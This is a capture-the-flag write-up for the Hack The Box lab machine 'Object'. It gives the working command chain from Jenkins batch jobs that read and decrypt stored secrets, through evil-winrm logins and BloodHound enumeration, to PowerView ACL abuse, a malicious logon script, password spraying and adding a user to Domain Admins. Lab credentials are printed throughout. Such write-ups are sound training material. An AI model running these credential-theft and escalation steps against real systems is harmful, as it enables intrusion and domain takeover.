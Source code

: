 # [Object](https://app.hackthebox.com/machines/Object)

```bash
nmap -p- --min-rate 10000 10.10.11.132 -Pn 
```

![Alt text](img/image.png)

After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80,5985,8080 10.10.11.132
```

![Alt text](img/image-1.png)


For port (8080), there is `Jenkins` application is up.

I create an account and login into Jenkins.

![Alt text](img/image-2.png)

![Alt text](img/image-3.png)

Dr4ks: Dr4ks


I create a job for Dr4ks user.


I select `Execute Windows batch command` for Build section on Job.

![Alt text](img/image-4.png)

I also add cronjob time (means **every minute**)

![Alt text](img/image-5.png)


I can see output as below.

![Alt text](img/image-6.png)


`Jenkins Enumeration` starts from here.

![Alt text](img/image-7.png)

config.xml is here.

![Alt text](img/image-8.png)


Let's copy this via below command.
```bash
powershell -c cat ..\..\users\admin_17207690984073220035\config.xml
```

![Alt text](img/image-9.png)


I also took `master.key` file from `secrets` folder

```bash
powershell -c cat ..\..\secrets\master.key
```

![Alt text](img/image-10.png)

I need to get `hudson.util.secret` file via below command (as because it is binary, I need to get this `base64` encoded).

```bash
powershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte)) 
```

![Alt text](img/image-12.png)

![Alt text](img/image-11.png)


I will use [offline Jenkins decryptor](https://github.com/gquere/pwn_jenkins)


```bash
python3 jenkins_offline_decrypt.py /home/kali/Desktop/master.key /home/kali/Desktop/hudson.util.secret /home/kali/Desktop/config.xml 
```

![Alt text](img/image-13.png)


This is the credentials of `oliver` user.

oliver: c1cdfun_d2434


Let's get  into machine via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.11.132 -u oliver -p c1cdfun_d2434
```

user.txt

![Alt text](img/image-14.png)


Let's use `SharpHound.ps1` on target machine then download this zip file on attacker's machine to see what's going on.

```bash
upload SharpHound.exe
.\SharpHound.exe -c all
download C:\ProgramData\{zip_file}
```


![Alt text](img/image-15.png)

![Alt text](img/image-16.png)


Then start `Bloodhound`.

```bash
neo4j console
bloodhound
```


From this image, I see that for `Oliver` user has `ForceChangePassword` privilege against `Smith` user.

![Alt text](img/image-17.png)


To change password of 'Smith' user, we need to do below actions.

```bash
upload PowerView.ps1
. .\PowerView.ps1
$newpass = ConvertTo-SecureString 'dr4ksdr4ks@' -AsPlainText -Force
Set-DomainUserPassword -Identity smith -AccountPassword $newpass
```

![Alt text](img/image-18.png)

Now, we can login into `Smith` user via credentials which we set previously.


smith: dr4ksdr4ks@


Let's connect via `evil-winrm` command.

```bash
evil-winrm -i 10.10.11.132 -u smith -p 'dr4ksdr4ks@'
```

![Alt text](img/image-19.png)


Pivoting to `Maria` user, from Bloodhound result, I saw that `Smith` user has `GenericWrite` privilege against `Maria` user.

![Alt text](img/image-20.png)


That's why I will use this [blog](https://www.thehacker.recipes/a-d/movement/dacl/logon-script) to enumerate Desktop of `maria` user.

My malicious script to enumerate Desktop of `Maria` user.
```bash
ls \users\maria\desktop\ > \programdata\out2
```

I need to add this cmd.ps1 script into `Maria` user's **scriptpath**
```bash
Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\cmd.ps1"}
```

![Alt text](img/image-21.png)


Now, let's change malicious Powershell script via copying Excel data.
```bash
echo "copy \users\maria\desktop\Engines.xls \programdata\" > cmd.ps1  
```

![Alt text](img/image-22.png)


Download this data and read.

![Alt text](img/image-23.png)

username:
maria

passwords:
d34gb8@
0de_434_d545
W3llcr4ft3d_4cls

Let's use `crackmapexec` tool to find correct credentials.

```bash
crackmapexec winrm 10.10.11.132 -u maria -p passwords -d 'object.htb'
```

![Alt text](img/image-24.png)


Hola, we found credentials of `maria` user.

maria:W3llcr4ft3d_4cls


From `bloodhound` results, I saw that 'Maria' user has '**WriteOwner**' privilege on `Domain Admins` group.

![Alt text](img/image-25.png)


To abuse this, we need to run below commands.
```bash
. .\PowerView.ps1
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
```

![Alt text](img/image-26.png)


We need to exit from here, again login and see that we can check via `net user maria` command that we know that this user belongs to 'Object\Domain Admins'

![Alt text](img/image-27.png)


Also, we can check exactly via `whoami /groups` command.

![Alt text](img/image-28.png)


root.txt

![Alt text](img/image-29.png)